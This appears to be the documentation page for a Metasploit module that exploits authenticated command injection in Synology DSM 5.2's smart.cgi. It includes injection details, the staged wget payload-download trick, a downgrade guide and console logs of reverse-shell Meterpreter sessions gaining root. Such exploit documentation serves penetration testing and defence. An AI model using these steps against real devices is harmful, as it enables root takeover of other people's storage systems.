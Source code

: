 ## Vulnerable Application

This module exploits a vulnerability found in Synology DiskStation Manager (DSM)
versions < 5.2-5967-5, which allows the execution of arbitrary commands under root
privileges after website authentication.

The vulnerability is located in `webman/modules/StorageManager/smart.cgi`, which
allows appending of a command to the device to be scanned.  However, the command
with drive is limited to 30 characters.  A somewhat valid drive name is required,
thus /dev/sd is used, even though it doesn't exist.  To circumvent the character
restriction, a wget input file is staged in /a, and executed to download our payload
to /b.  From there the payload is executed.  A wfsdelay is required to give time
for the payload to download, and the execution of it to run.

A more detailed explanation of exploitation steps:

1. We first clean the env by deleting `/a`, and `b`
2. we use `echo -n` to append our IP:PORT for our staging server to `/a`.  This is
done in small chunks to stay under the character limit.
3. we call `wget -i /a -O b` to write our payload to `b` in `/usr/syno/synoman/webman/modules/StorageManager`
4. we wait for HTTP Server to receive the `wget` request and send back the payload.  Then we execute it.

### Notes

`smart.cgi` and our payload are located in `/usr/syno/synoman/webman/modules/StorageManager`.

`/var/log/messages` will contain logs of exploitation:

```
May 19 16:35:50 oldNas smart.cgi: smart.cpp:477 smartctl system command failed cmd: /usr/syno/bin/smartctl -d sat -t short /dev/sd`wget -i /a -O b` > /dev/null 2>&1 ret: 4
May 19 16:35:50 oldNas smart.cgi: smart.cpp:846 error
```

No randomization was chosen on the `a` and `b` file names since we're so limited on characters as it is.
While it would be possible to randomize a single character, it didn't seem worth the effort.

### Device Downgrade

The vulnerable DSM can be downloaded from [Synology](https://archive.synology.com/download/DSM/release/5.2/5644/)

Essentially Synology doesn't want you to downgrade. In order to do so, we need to mount the recovery boot loader
and overwrite it with synology 5.2.  Then when we cause an issue (by removing the disks on boot), it will boot
to the recovery.  Since the recovery is 5.2, it will let us install the 'current' version of 5.2.

You'll want to watch [Downgrade DSM6.x to DSM 5.2](https://youtube.com/watch?v=DFtOmEv63n4)

The notes from the video are:

1. Turn on synology and backup data if needed.
2. Create a shared folder. ("test" is used in this guide)
3. Locally, extract 4 files from DSM 5644.pat (grub_cksum.syno, rd.gz, zImage, checksum.syno)
and place the files in the newly created shared folder on the NAS.
4. Enable telnet/ssh in the DSM control panel.
5. telnet/ssh to the diskstation.
6. Log in as admin.
7. Type `sudo su`. The password it asks for will also be the admins password.
8. Type `cd /dev` to change to the devices directory.
9. Type `ls synoboot2` to make sure synoboot2 is listed.
10. Type `mkdir /mnt/synoboot` to make a directory to mount to.
11. Type `mount synoboot2 /mnt/synoboot` to mount the boot files to the directory we created.
12. Type `cd /mnt/synoboot` to change to that directory.
13. Type `ls` to view the files in the directory.
(note that the names of the 4 files we put in the shared folder, should be there.
Although these ones listed are the DSM6 versions)
14. Type `cp /volume1/test/checksum.syno /mnt/synoboot`.
15. Type `cp /volume1/test/grub_cksum.syno /mnt/synoboot`.
16. Type `cp /volume1/test/rd.gz /mnt/synoboot`.
17. Type `cp /volume1/test/zImage /mnt/synoboot`.
18. Go back into the DSM interface and shutdown. Once the device is shutdown, remove the disks.
(This step is important because if you do not remove the disks,
the next powerup will detect an issue and recover the DSM6 boot image)
19. Power the device up. Should say no disks inserted.
Before clicking the connect again button, put the hard disks back in and wait for the HDD LED's to light up.
20. If disks are in, click the connect again button.
Next page should come up saying to reinstall DSM.
Make sure to choose the 5967 pat file so that the bootimage is overwritten correctly.
21. Good to go! Data should remain intact as long as it is in a shared folder,
and DSM should be a completely stock 5.2 - 5967.

## Verification Steps

  1. Install the 5.2 vulnerable DSM
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/synology_dsm_smart_exec_auth```
  4. Do: ```set username <username>```
  5. Do: ```set password <password>```
  6. Do: ```run```
  7. You should get a root shell.

## Options

### Password

Password for website login.  Default is `password`.

### Username

Username for website login.  Default is `admin`.

### wfsdelay

Wfsdelay needs to be at least a couple seconds to allow for payload download and staging.  Default is `10`.

## Scenarios

### DS412+ with DSM 5.2-5644

  ```
  [*] Processing synology.rc for ERB directives.
  resource (synology.rc)> use modules/exploits/linux/http/synology_dsm_smart_exec_auth
  resource (synology.rc)> set payload python/meterpreter/reverse_tcp
  payload => python/meterpreter/reverse_tcp
  resource (synology.rc)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (synology.rc)> set lport 60111
  lport => 60111
  resource (synology.rc)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (synology.rc)> set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  resource (synology.rc)> set username admin
  username => admin
  resource (synology.rc)> set password password
  password => password
  resource (synology.rc)> set verbose true
  verbose => true
  resource (synology.rc)> rexploit
  [*] Reloading module...
  [*] Started reverse TCP handler on 1.1.1.1:60111 
  [*] Trying to detect installed version
  [*] Model DS412+ with version 5.2-5644 detected
  [*] Attempting Login
  [*] Using URL: http://1.1.1.1:8080/
  [*] Cleaning env
  [*] Staging wget with: echo -n '1.1'>>/a
  [*] Staging wget with: echo -n '.1.1:'>>/a
  [*] Staging wget with: echo -n '8080'>>/a
  [*] Requesting payload pull
  [+] HTTP Server request received, sending payload
  [*] Executing payload
  [*] Sending stage (53755 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:60111 -> 2.2.2.2:42353) at 2020-05-19 20:13:33 -0400
  [*] Server stopped.
  [!] This exploit may require manual cleanup of '/usr/syno/synoman/webman/modules/StorageManager/b' on the target
  [!] This exploit may require manual cleanup of '/a' on the target

  meterpreter > 
  [+] Deleted /usr/syno/synoman/webman/modules/StorageManager/b
  [+] Deleted /a

  meterpreter > getuid
  Server username: root
  meterpreter > sysinfo
  Computer     : oldNas
  OS           : Linux 3.10.35 #5644 SMP Thu Nov 12 17:18:22 CST 2015
  Architecture : x64
  Meterpreter  : python/linux
  meterpreter > cat /etc.defaults/VERSION
  majorversion="5"
  minorversion="2"
  buildphase="hotfix"
  buildnumber="5644"
  smallfixnumber="0"
  builddate="2015/11/12"
  buildtime="17:17:21"
  meterpreter > 
  ```

### DS410 with DSM 5.2-5644

This unit's version was not able to be determined automatically.  `forceexploit` was set to `true` to enable it to run.

```
msf exploit(linux/http/synology_dsm_smart_exec_auth) > run

[*] Started reverse TCP handler on 192.168.135.168:4567 
[*] Trying to detect installed version
[*] Attempting Login
[*] Using URL: http://192.168.135.168:8080/
[*] Cleaning env
[*] Staging wget with: echo -n '192.168'>>/a
[*] Staging wget with: echo -n '.135.16'>>/a
[*] Staging wget with: echo -n '8:8080'>>/a
[*] Requesting payload pull
[+] HTTP Server request received, sending payload
[*] Executing payload
[*] Sending stage (53755 bytes) to 192.168.132.107
[*] Meterpreter session 1 opened (192.168.135.168:4567 -> 192.168.132.107:54951) at 2020-05-20 13:53:18 -0500
[*] Server stopped.
[!] This exploit may require manual cleanup of '/usr/syno/synoman/webman/modules/StorageManager/b' on the target
[!] This exploit may require manual cleanup of '/a' on the target

meterpreter > 
[+] Deleted /usr/syno/synoman/webman/modules/StorageManager/b
[+] Deleted /a

meterpreter > sysinfo
Computer     : DiskStation
OS           : Linux 2.6.32.12 #5644 Thu Nov 12 17:17:40 CST 2015
Architecture : ppc
Meterpreter  : python/linux
meterpreter > exit
```
